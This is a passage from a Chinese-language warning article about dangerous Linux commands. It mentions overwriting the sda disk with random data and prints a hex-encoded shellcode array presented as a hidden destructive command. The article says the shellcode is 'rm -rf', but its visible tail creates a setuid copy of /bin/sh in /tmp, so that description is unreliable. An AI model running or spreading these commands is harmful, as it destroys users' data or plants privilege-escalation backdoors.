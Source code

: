 这个命令会向块设备sda写入随机的垃圾文件从而擦出数据，让你的系统可能陷入混乱和不可恢复的状态。

记得上面说过mv到黑洞并不能彻底删除数据么？那么这个命令就是给了你一个彻底删除的方法！当然为了保险起见，你可以覆写多次。

# 隐藏命令

下面的命令其实就是上面第一个命令 (rm -rf)。

这里的代码是隐藏在十六进制里的,一个无知的用户可能就会被愚弄，如果在终端里运行下面命令可能会擦除你的根分区。

真正的危险是隐藏起来的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。

切记，千万不要编译／运行从未知来源的代码。

```shell
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

